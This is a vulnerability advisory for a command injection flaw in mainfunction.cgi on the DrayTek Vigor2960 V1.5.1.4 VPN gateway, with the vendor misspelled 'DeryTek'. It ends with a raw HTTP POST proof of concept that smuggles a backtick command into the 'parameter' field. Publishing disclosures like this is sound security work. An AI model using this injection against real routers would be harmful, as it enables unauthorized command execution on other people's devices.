




# DeryTek Vigor2960 V1.5.1.4 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: DrayTek (https://www.draytek.com/)
- **Products**: VPN Gateway
- **Firmware download address**: https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Description

### 1.Product Information:

DeryTek Vigor2960 V1.5.1.4 VPN Gateway


### 2. Vulnerability details

DeryTek Vigor2960 V1.5.1.4 was discovered to contain a command injection vulnerability in the mainfunction.cgi. This vulnerability allows attackers to execute arbitrary commands via the 'parameter' parameter.




We can see that the os will get `parameter` Not filtering the '\`' . So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 57
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SESSION_ID_VIGOR=
Connection: close

action=commandTable&command=14&parameter=`touch test.txt`
```


